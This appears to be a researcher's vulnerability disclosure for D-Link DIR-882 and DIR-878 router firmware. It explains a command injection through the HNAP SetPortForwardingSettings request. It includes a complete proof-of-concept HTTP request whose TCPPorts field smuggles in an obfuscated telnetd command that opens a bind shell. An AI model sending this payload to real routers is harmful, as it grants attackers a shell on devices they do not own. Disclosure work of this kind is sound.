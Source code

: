 # D-Link Vulnerability

Vendor:D-Link

Product:DIR_882、DIR_878

Version:DIR_882_FW130B06、DIR_878_FW130B08

Type:Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in D-Link Technology router with firmware which was released recently. A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted /HNAP1 POST request.(need authentication).

**Remote Command Execution**

In `prog.cgi` binary:

In `SetPortForwardingSettings` function,`LocalIPAddress、TCPPorts、UDPPorts` is directly passed by the attacker. After that, call the function nvram_safe_set to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

In `librcm.so` binary:

In `PORTFORWARD_run` function, the initial input will be extracted. Eventually, the initial input will cause command injection.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>



## PoC

We set `TCPPorts` as **$(telnetd `printf '\x2D'`l sh `printf '\x2D'`p 1117 `printf '\x2D'`b 0.0.0.0)** , and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.100.1
Content-Length: 733
SOAPACTION: "http://purenetworks.com/HNAP1/SetPortForwardingSettings"
HNAP_AUTH: 49D4B529B81589A4B9F346D552710226 1727332085412
Accept: text/xml
Content-Type: text/xml
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Origin: http://192.168.100.1
Referer: http://192.168.100.1/PortForwarding.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=A3pyCzQ1
Connection: close

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetPortForwardingSettings>
			<PortForwardingList>
				<PortForwardingInfo>
					<Enabled>true</Enabled>
					<PortForwardingDescription>1</PortForwardingDescription>
					<TCPPorts>$(telnetd `printf '\x2D'`l sh `printf '\x2D'`p 1117 `printf '\x2D'`b 0.0.0.0)</TCPPorts>
					<UDPPorts>2000</UDPPorts>
					<LocalIPAddress>192.168.100.100</LocalIPAddress>
					<ScheduleName>Always</ScheduleName>
				</PortForwardingInfo>
			</PortForwardingList>
		</SetPortForwardingSettings>
	</soap:Body>
</soap:Envelope>
```

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>



## Result

Get a shell!

<div  align="center"><img src="./images/4.png" style="zoom:100%;" /></div>
